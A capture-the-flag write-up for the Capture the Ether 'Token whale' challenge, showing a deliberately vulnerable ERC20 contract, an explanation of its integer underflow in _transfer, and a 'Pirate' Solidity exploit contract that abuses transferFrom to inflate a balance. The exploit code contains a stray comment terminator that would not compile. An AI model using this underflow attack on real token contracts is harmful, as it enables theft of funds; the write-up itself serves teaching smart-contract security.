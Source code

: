 # Token whale

## Required Concepts

[ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) is a token standard that implements a standard interface for smart contracts. This interface includes function and event handling. For a broad overview of tokens in Ethereum, please visit: https://www.ethereum.org/token

## Challenge
Source:https://capturetheether.com/challenges/math/token-whale/
>This ERC20-compatible token is hard to acquire. There’s a fixed supply of 1,000 tokens, all of which are yours to start with.
>
>Find a way to accumulate at least 1,000,000 tokens to solve this challenge.
```
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}
```

## Solution

This puzzle has an error in its smart contract design, which allows for underflow. The underflow will occur on the ```balanceOf``` any empty address balance that calls the ```transferFrom``` function. This function call initiates the ```_transfer``` function which includes the following line of code:
```
balanceOf[msg.sender] -= value;
```

Further observations:
* ```uint8 public decimals = 18;``` variable is not used. this means the token will not simulate fixed-point numbers
or fractional units of the ```SET``` token
* While ```totalSupply = 1000;``` is set in the constructor function, it is not referenced in any other instance. Because of this flaw to incorporate ```totalSupply``` into a ```require()``` statement, there is no upper bound limit on the number of tokens that can be issued.
* ```allowance``` mapping gives the contract owner the ability to assign permission to a different address to act on behalf of the owner and distribute tokens on the owner's behalf. This allowance can be any number, all the way up to ```2**256```, which renders the third ```require()``` statement in the ```tranferFrom``` function useless.

Using the malicious smart contract below, the ```Token Whale``` contract can be manipulated and exploited:

```
pragma solidity ^0.4.24;

interface TokenWhaleChallenge {
    function transfer(address to, uint256 value) public;
    function approve(address spender, uint256 value) public;
    function transferFrom(address from, address to, uint256 value) public;
}

/*
run contract function 'approval' from externally owned account that deployed
the original contract challenge so that 'Pirate' contract can use 'transferFrom'
use the uint (2**256) - 1 =
115792089237316195423570985008687907853269984665640564039457584007913129639935

for max token creation
*/

contract Pirate {
    TokenWhaleChallenge public harpoon;

    // Load deployed 'TokenWhaleChallenge' address here
    function loadHarpoon(address _crank) public {
        harpoon = TokenWhaleChallenge(_crank);
    }

    /*
    from and to addresses can be the same in this instance
    the 'Pirate' contract account will see a huge surge of tokens
    when _transfer is called and balanceOf[msg.sender] -= value;
    underflows by subtracting 1 from from a uint256 that's
    currently at 0
    */
    function harpoonFrom(address _from, address _to, uint256 _value)
    public
    {
        // inputs in remix are finicky, to avoid error use:
        // "target account","target account", 1
        */
        harpoon.transferFrom(_from,_to,_value);
    }

    // transfer tokens from 'Pirate' contract account back to original wallet
    function tokenTransfer(address _to, uint256 _value)
    public
    {
      // tokenTransfer: "target account",1000001
        harpoon.transfer(_to, _value);
    }
}
```
